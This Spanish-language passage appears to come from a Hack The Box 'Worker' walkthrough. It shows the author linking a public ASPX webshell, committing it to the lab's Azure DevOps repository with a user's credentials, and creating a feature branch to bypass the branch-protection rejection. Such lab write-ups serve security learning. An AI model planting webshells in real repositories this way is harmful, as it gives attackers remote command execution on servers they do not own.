 Ahora agregamos el archivo, hacemos el commit y el push.

> Usaremos `.aspx`: La extensión de archivo ASPX se utiliza para páginas web que son generadas automáticamente por el servidor y dirigen directamente a un servidor activo. Se asocian habitualmente con la infraestructura Microsoft ASP.NET. Este formato web puede abrirse en cualquier navegador web si la URL finaliza con la extensión ASPX. [Online ASPX](https://www.online-convert.com/es/formato-de-archivo/aspx)

* [Encontré esta webshell sencilla](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx).

```bash
–» vim candelapura.aspx 
–» git add .
–» git commit -m "Quemando esto"
[master 014fedf] Quemando esto
–» git push
Username for 'http://devops.worker.htb': nathen
Password for 'http://nathen@devops.worker.htb': 
Enumerando objetos: 7, listo.
Contando objetos: 100% (7/7), listo.
Comprimiendo objetos: 100% (4/4), listo.
Escribiendo objetos: 100% (4/4), 506 bytes | 506.00 KiB/s, listo.
Total 4 (delta 2), reusado 1 (delta 0), pack-reusado 0
remote: Analyzing objects... (4/4) (6 ms)
remote: Storing packfile... done (23 ms)
remote: Storing index... done (31 ms)
To http://devops.worker.htb/ekenas/SmartHotel360/_git/lens
 ! [remote rejected] master -> master (TF402455: Pushes to this branch are not permitted; you must use a pull request to update this branch.)
error: falló el push de algunas referencias a 'http://devops.worker.htb/ekenas/SmartHotel360/_git/lens'
```

Obtenemos el error (: Ahora procedemos a crear una nueva rama:

```bash
–» git checkout -b feature/patestpa 
Cambiado a nueva rama 'feature/patestpa'
–» git push
fatal: La rama actual feature/patestpa no tiene una rama upstream.
Para realizar un push de la rama actual y configurar el remoto como upstream, use

        git push --set-upstream origin feature/patestpa

–» git push --set-upstream origin feature/patestpa
Username for 'http://devops.worker.htb': nathen
Password for 'http://nathen@devops.worker.htb': 
Enumerando objetos: 7, listo.
Contando objetos: 100% (7/7), listo.
Comprimiendo objetos: 100% (4/4), listo.
Escribiendo objetos: 100% (4/4), 506 bytes | 506.00 KiB/s, listo.
Total 4 (delta 2), reusado 1 (delta 0), pack-reusado 0
remote: Analyzing objects... (4/4) (5 ms)
remote: Storing packfile... done (33 ms)
remote: Storing index... done (43 ms)
To http://devops.worker.htb/ekenas/SmartHotel360/_git/lens
   a306cfe..014fedf  feature/patestpa -> feature/patestpa
Rama 'feature/patestpa' configurada para hacer seguimiento a la rama remota 'feature/patestpa' de 'origin'.
```
